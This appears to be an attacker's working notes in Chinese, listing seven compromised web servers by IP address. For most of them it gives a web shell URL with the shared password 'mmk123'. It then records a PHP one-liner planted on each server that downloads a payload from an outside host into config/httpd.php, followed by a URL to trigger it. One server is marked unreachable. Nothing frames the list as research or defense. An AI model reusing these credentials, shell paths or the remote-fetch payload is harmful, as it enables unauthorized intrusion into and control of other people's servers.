 http://106.15.239.172:32/template/template_init.php |mmk123 
代码更新：0608 ✅
http://106.15.239.172:32/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://106.15.239.172:32/config/httpd.php?d=up

http://212.64.20.68/rewrite/simple.php |mmk123 | 连接不上

http://101.201.118.217/core/view/simple.php |mmk123 
代码更新：0608 ✅
http://101.201.118.217/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://101.201.118.217/config/httpd.php?d=up

http://120.26.133.169/template/template_init.php |mmk123 
代码更新：0608 ✅
http://120.26.133.169/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://120.26.133.169/config/httpd.php?d=up

http://111.229.254.166/template/template_init.php |mmk123 
代码更新：0608 ✅
http://111.229.254.166/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://111.229.254.166/config/httpd.php?d=up

http://139.196.199.227/template/template_init.php |mmk123
代码更新：0608 ✅
http://139.196.199.227/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://139.196.199.227/config/httpd.php?d=up

http://120.26.90.134/template/template_init.php |mmk123 
代码更新：0608 ✅
http://120.26.90.134/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://120.26.90.134/config/httpd.php?d=up

http://39.107.238.130:32/template/template_init.php |mmk123
代码更新：0608 ✅
http://39.107.238.130:32/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://39.107.238.130:32/config/httpd.php?d=up

